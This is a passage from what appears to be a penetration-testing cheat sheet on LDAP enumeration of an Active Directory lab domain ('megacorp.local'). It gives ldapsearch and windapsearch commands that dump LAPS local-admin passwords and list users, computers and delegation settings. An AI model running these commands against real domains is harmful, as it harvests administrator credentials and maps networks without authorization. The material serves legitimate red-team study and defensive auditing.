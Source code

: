 Dump LAPS passwords:

```text
$ ldapsearch -h 127.0.0.1 -x -b "dc=megacorp,dc=local" '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

Simple authentication with ldapsearch:

```text
$ ldapsearch -H ldap://127.0.0.1:389 -x -D 'CN=snovvcrash,CN=Users,DC=megacorp,DC=local' -w 'Passw0rd!' -s sub -b 'DC=megacorp,DC=local' | tee ldapsearch.out
```

Analyze large output for anomalies by searching for unique strings:

```text
$ cat ldapsearch.out | awk '{print $1}' | sort | uniq -c | sort -nr
```

### windapsearch

* [https://github.com/ropnop/windapsearch](https://github.com/ropnop/windapsearch)

Enumerate domain function functional level with LDAP anonymous bind:

```text
$ python3 windapsearch.py --dc-ip 192.168.2.22 -d megacorp.local -u '' --functionality
```

Extract all domain users into a text file:

```text
$ python3 windapsearch.py --dc-ip 192.168.2.22 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U | tee ~/ws/log/windapsearch.out
$ cat ~/ws/log/windapsearch.out | grep userPrincipalName | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | awk -F@ '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

Extract all domain computers into a csv file and try to resolve their IPs:

```text
$ python3 windapsearch.py --dc-ip 192.168.2.22 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -C -r | tee ~/ws/enum/all-computers.csv
```

Enumerate users in Protected Users group which are also trusted for unconstrained delegation:

```text
$ python3 windapsearch.py --dc-ip 192.168.2.22 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -m 'Protected Users' --attrs trustedForDelegation
```

Find what OU is the user John Doe part of:

```text
$ python3 windapsearch.py --dc-ip 192.168.2.22 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U --full | grep distinguishedName | grep j.doe
```

### go-windapsearch
